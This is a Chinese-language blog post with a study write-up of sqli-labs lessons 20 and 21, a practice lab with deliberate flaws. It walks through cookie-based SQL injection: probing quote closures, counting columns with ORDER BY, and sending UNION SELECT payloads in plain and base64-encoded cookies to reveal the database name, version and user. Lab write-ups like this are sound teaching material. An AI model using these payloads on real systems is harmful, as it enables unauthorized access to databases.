 ```yaml
---
title: sqli labs lesson 20~21 学习
date: 2016-08-31 17:05:21
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

为了找工作，前几天重温了下背包九讲，现在继续学习sql注入。
<!-- more -->
# 1 lesson 20 cookie注入-基于错误
此时，无论用户名、密码以什么格式输入，在后面加单引号'，双引号"，注释符#，页面都不会报错。

在页面上输入普通用户 用户名和密码之后，显示如下
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7fkm2fcwxj30zn0a9q7f.jpg)

USER AGENT,cookie,username,password,id等信息显示在页面上

# 1.1 测试cookie
使用 EditThisCookie 插件查看cookie值
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f7fkqai00tj30fm0ardgv.jpg)

cookie 值为 Dumb，编辑cookie，观察页面显示：
在 Dumb 后面添加单引号 ', 即 cookie 值为 `Dumb'`
然后刷新页面
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7fks7dy43j311r09d0xy.jpg)
出现错误：`Issue with your mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Dumb'' LIMIT 0,1' at line 1`


cookie 值：`Dumb"`
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7fku8u59qj31000ggdma.jpg)
提示不太友好，就不解释了~~~~~
总之没有语法错误。

初步断定 <font color="red"> cookie 是以单引号' 闭合的</font>

cookie 值 | 页面情况
-- | --
`Dumb'#`  | 页面显示正常
`Dumb' order by 5#`  | 语法错误
`Dumb' order by 1#`  | 正常
`Dumb' order by 3#`  | 正常
`Dumb' order by 4#`  | 语法错误

<font color="red">说明sql语句有三个字段</font>

## 1.2 获取数据库信息
cookie 值：`' union select version(),database(),user()#`
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7fl5zdbnkj310n0a2gqm.jpg)
页面显示
- 数据库版本：5.6.17
- 数据库名：security
- 用户名：root@localhost

其他数据库信息的获取方式，参加 [sqli labs lesson 1~4 学习](http://huirong.github.io/2016/08/24/sqli-labs-series-lesson1-4/) lesson 1

# 2 lesson 21 cookie注入-基于错误
## 2.1 测试
- 在页面输入 用户名：Dumb 密码：Dumb 后
- cookie 值：RHVtYg==
- 备注：可能是浏览器上看到的 cookie 值为：RHVtYg%3D%3D，因为 == 浏览器进行url编码后为 %3D

无论怎么使用 lesson 20 的方式修改cookie都没有用
使用 base 64 解密 cookie
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f7ii7z0ugzj30eq099dgi.jpg)
解密后的结果为 Dumb，说明cookie是经过base 64加密的。

## 2.2 闭合类型
将 `Dumb\` 进行base64加密
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1f7iie2bw5uj30eq09zgmc.jpg)


然后EditThisCookie，将cookie修改为加密后的值
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7iiepfhe8j30fm0cgwg4.jpg)


刷新页面
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1f7iifome6uj311p08sgqk.jpg)

页面出现如下错误：
`Issue with your mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Dumb\') LIMIT 0,1' at line 1`

说明 sql 语句是以 `('')` 闭合的。

## 2.2 注入
将 `') union select database(),version(),version() #`  进行base64加密
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7iij6a57wj30eq094t9s.jpg)

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1f7iijffkzmj30fm0cg0ul.jpg)

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7iijuq7ntj31160bkwk1.jpg)

页面上显示出数据库，MySQL版本等信息。
其他数据库信息的获取方式，参加 [sqli labs lesson 1~4 学习](http://huirong.github.io/2016/08/24/sqli-labs-series-lesson1-4/) lesson 1

# 3 后记
sqli labs 的学习就先告一段落，等找完工作，继续学习，顺便把中间没有博客的 lesson 18 和 lesson 19 补上。












